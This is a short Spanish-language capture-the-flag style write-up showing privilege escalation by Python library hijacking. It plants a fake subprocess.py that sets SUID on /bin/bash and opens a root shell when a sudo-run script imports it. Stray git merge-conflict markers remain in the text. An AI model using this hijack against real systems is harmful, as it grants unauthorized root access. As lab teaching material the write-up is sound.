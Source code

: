 ```shell
```
### Python Library Hijacking

```shell
luisillo@32fca1d7c92f:/opt$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
```
<p>Como podemos observar las librerias importadas en el programa no estan en el path lo que abre la puerta a un Python Library Hijacking</p>
<p>Esto es debido a que el primer sitio donde se buscan las librerias es el directorio local por lo que crearemos un archivo python llamado "subprocess.py"</p>

```shell
luisillo@32fca1d7c92f:/opt$nano subprocess.py
```
<p>Introducimos el siguiente script el cual nos activa el bit SetUID y luego nos lanza una bash </p>

```python
import os

os.system("chmod u+s /bin/bash")
os.system("bash -p")
```
<p>Lanzamos el programa con el siguiente comando</p>
<<<<<<< HEAD
=======

>>>>>>> origin/main
```shell
luisillo@32fca1d7c92f:/opt$ sudo -u root /usr/bin/python3 paw.py 
```
<p>Nos devuelve una bash con el usuario root</p>
<<<<<<< HEAD
=======

>>>>>>> origin/main
```shell
root@32fca1d7c92f:/opt# whoami
root
```

